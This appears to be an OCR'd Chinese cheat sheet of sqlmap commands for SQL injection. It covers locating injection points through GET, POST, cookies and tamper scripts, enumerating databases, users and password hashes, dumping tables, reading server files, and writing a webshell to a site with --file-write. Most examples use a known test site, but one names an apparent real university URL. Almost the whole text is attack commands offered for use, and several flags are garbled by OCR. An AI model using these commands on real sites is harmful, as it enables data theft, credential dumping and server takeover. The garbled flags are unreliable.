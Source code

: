 1：寻找注入点

GET方式

sqlmap -u "url" //这个URL必须含？

POST方式

sqlmap -u http://testasp.vulnweb.com/Login.asp --data "tfUName=1&tfUPass=1"

cookie注入

sqlmap -u "url" --cookie "chsadj" --level 2 //这里的URL去掉？及其后的内容，并将它们放在cookie的内容里面

tamper方式

sqlmap -u "url" -v 3 --batch --tamper "sac.py"  //temper后面的插件可以去sql安装目录查找

自动检测表

sqlmap -u http://testasp.vulnweb.com/Login.asp --forms

延时两秒

Sqlmap –u “url” --delay 2

频率3次

Sqlmap –u “url” --safe-freq 3

伪静态

Sqlmap -u http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html //在40后面加*

查看数据库

sqlmap -u "url" --dbs   //查看所有数据库
sqlmap -u "url" --users //查看所有用户
sqlmap -u "url" --current-db //查看当前的数据库
sqlmap -u "url" --current-user //产看当前的用户
sqlmap -u "url" --is-dba //查看是否是最高权限
sqlmap -u "url" --passwords //查看所有密码
sqlmap -u "url" –hostname //查看主机名
sqlmap -u "url" privileges -U username //查看用户权限
sqlmap -u "url" –roles //查看用户角色

查看详细内容

sqlmap -u "url" --tables -D "database" //database这个数据库的表数据表
sqlmap -u "url" --columns -T "tables" -D "database" //查看tables这个数据表的字段
sqlmap -u "url" --dump "a,b,c" -C "columns" -T "tables" -D "database" //下载内容，后面的-CTDabc都是对下载的数据库表段的约束如果不加就是下载所有

执行特殊操作

文件查看

sqlmap -u "url" –file-read= //这个读取的文件会存在本地的结果目录，请认真看提示

文件写入

sqlmap -u "url" --file-write=本地文件路径 --file-dest=网站的绝对路径 //上传webshell用，需要dba权限
